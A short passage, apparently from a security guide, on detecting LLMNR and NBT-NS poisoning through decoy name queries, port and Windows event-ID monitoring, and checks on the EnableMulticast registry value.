It is not always possible to disable LLMNR and NetBIOS, and therefore you need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses. Read [this](https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/).

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs 4697 and 7045 can be monitored for. Finally, you can monitor the registry key ```HKLM\Software\Policies\Microsoft\Windows NT\DNSClient``` for changes to the ```EnableMulticast``` DWORD value. A value of 0 would mean that LLMNR is disabled.